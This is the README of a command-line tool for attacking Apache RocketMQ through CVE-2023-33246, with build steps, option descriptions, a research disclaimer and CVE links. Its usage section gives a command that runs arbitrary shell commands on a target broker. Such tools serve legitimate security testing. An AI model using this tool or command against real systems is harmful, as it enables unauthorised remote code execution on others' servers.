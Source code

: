 # RocketMQ Attack Tool

A command-line tool for testing RocketMQ vulnerabilities.

## Features

- [x] Attack RocketMQ Broker (CVE-2023-33246)
- [ ] Attack RocketMQ Nameserver (CVE-2023-37582)
- [x] Easy-to-use command-line interface
- [ ] Support for both short and long command options

## Usage

### Attack Broker (CVE-2023-33246)

```bash
java -jar rocketmq-attack-1.0-SNAPSHOT.jar AttackBroker --target <host:port> --cmd <command>

# Example:
java -jar rocketmq-attack-1.0-SNAPSHOT.jar AttackBroker --target 127.0.0.1:10911 --cmd "id"
```

### Attack Nameserver (CVE-2023-37582)

TODO

### Command Options

Both attack modes support the following options:

- `-t, --target`: Target address in host:port format
- `-c, --cmd`: Command to execute on the target
- `--help`: Show help message

## Building

Requires JDK 8 or later and Gradle 7.0 or later.

```bash
./gradlew shadowJar
```

The built JAR file will be located at `build/libs/rocketmq-attack-1.0-SNAPSHOT.jar`

## Disclaimer

This tool is for security research and testing purposes only. Do not use it against systems you don't own or don't have permission to test.

## References

- [CVE-2023-33246](https://nvd.nist.gov/vuln/detail/CVE-2023-33246)
- [CVE-2023-37582](https://nvd.nist.gov/vuln/detail/CVE-2023-37582)

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
